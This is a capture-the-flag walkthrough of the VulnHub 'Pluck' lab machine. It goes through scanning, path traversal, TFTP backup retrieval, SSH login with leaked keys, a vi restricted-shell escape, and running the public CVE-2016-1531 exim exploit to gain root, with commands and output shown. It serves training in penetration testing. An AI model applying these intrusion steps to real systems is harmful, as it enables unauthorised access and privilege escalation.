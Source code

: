 # Pluck

## 1.Scan Network

```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.133	00:0c:29:e8:d3:70	VMware, Inc.
192.168.127.254	00:50:56:eb:a0:df	VMware, Inc.
```

The IP address is `192.168.127.133`, let's enumerate it


## 2.Enumeration

```bash
root@kali: nmap -p22,80,3306,5355 -sV -sC -v -oN nmap.out 192.168.127.133

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e8:87:ba:3e:d7:43:23:bf:4a:6b:9d:ae:63:14:ea:71 (RSA)
|   256 8f:8c:ac:8d:e8:cc:f9:0e:89:f7:5d:a0:6c:28:56:fd (ECDSA)
|_  256 18:98:5a:5a:5c:59:e1:25:70:1c:37:1a:f2:c7:26:fe (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Pluck
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql   MySQL (unauthorized)
5355/tcp open  llmnr?
MAC Address: 00:0C:29:E8:D3:70 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We first go for port 80 and check the website :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b4b4d9d2-09c4-4692-84df-c265b67b5297)

checking different parts of the page i found `Contact Us` menu which loads the page like this :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/350d1de7-4dd5-451f-850e-115614ce36ca)

i used burp to repeat the process for a path traversal vulnerability and it worked :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2bc65341-4166-40f8-8ab7-e66e4c2ab9f8)

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a65ba4fd-84bf-4435-96b2-ecd4abfebae4)


after sending request to `/usr/local/scripts/backup.sh` the contents below showed up :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/0211def6-716a-4d36-9dac-77338580233e)


here it says that backups are accessible through tftp, so we can check if we can reach it :

```bash
root@kali: tftp 192.168.127.133
tftp> get /backups/backup.tar
tftp> quit
```

now we extract the backup.tar file and see there are 2 directories in it :

```bash
root@kali: tar -xvf backup.tar
```

navigate to `home` folder and see the contents :


```bash
root@kali: tree .              
.
├── bob
├── CVE-2016-1531.sh
├── paul
│   └── keys
│       ├── id_key1
│       ├── id_key1.pub
│       ├── id_key2
│       ├── id_key2.pub
│       ├── id_key3
│       ├── id_key3.pub
│       ├── id_key4
│       ├── id_key4.pub
│       ├── id_key5
│       ├── id_key5.pub
│       ├── id_key6
│       └── id_key6.pub
└── peter
```

one of the private keys should work, so i checked one by one until i found that `id_key4` works to connect to ssh :

```bash
root@kali: ssh -i id_key4 paul@192.168.127.133
```

after logging in, we do not see a normal shell but some kind of restricted panel with options :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ea73b986-0297-46eb-acb4-863077921902)


## 3.Getting Shell

After looking at out options one intresting is `edit file` since it gives us the VI environment and we know that we can escape the VI to shell :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2224fd5b-3205-42d3-b8f4-221f214536fd)

after that just type :

- :set shell=/bin/bash
- :shell

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ec756748-4464-4c10-83d4-ba4d5f043558)

yes, we just escaped the restircted environment and have a normal shell

## 4.Privilege Escalation

I tried finding SUID binaries on the system and found :

```bash
paul@pluck:~$ find / -user root -perm /4000 2>/dev/null
/usr/exim/bin/exim-4.84-7
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/chsh
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/s-nail/s-nail-privsep
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/bin/su
/bin/umount
/bin/mount
/bin/fusermount
/bin/ping
/bin/ntfs-3g
```

in the first line we see `exim-4.84-7` that has suid permission, so i searched for its exploit online and found [this github page](https://github.com/kam1n0/sudo-exim4-privesc/blob/master/cve-2016-1531.sh)

and uploaded it on the server :

```bash
paul@pluck:/tmp$ ./CVE-2016-1531.sh
[ CVE-2016-1531 local root exploit
# id
uid=0(root) gid=1002(paul) groups=1002(paul)

# cd /root

# cat flag.txt

Congratulations you found the flag

---------------------------------------

######   ((((((((((((((((((((((((((((((
#########   (((((((((((((((((((((((((((
,,##########   ((((((((((((((((((((((((
@@,,,##########   (((((((((((((((((((((
@@@@@,,,##########                     
@@@@@@@@,,,############################
@@@@@@@@@@@,,,#########################
@@@@@@@@@,,,###########################
@@@@@@,,,##########                    
@@@,,,##########   &&&&&&&&&&&&&&&&&&&&
,,,##########   &&&&&&&&&&&&&&&&&&&&&&&
##########   &&&&&&&&&&&&&&&&&&&&&&&&&&
#######   &&&&&&&&&&&&&&&&&&&&&&&&&&&&&

# 

```

this is how you can get root on the system :)



















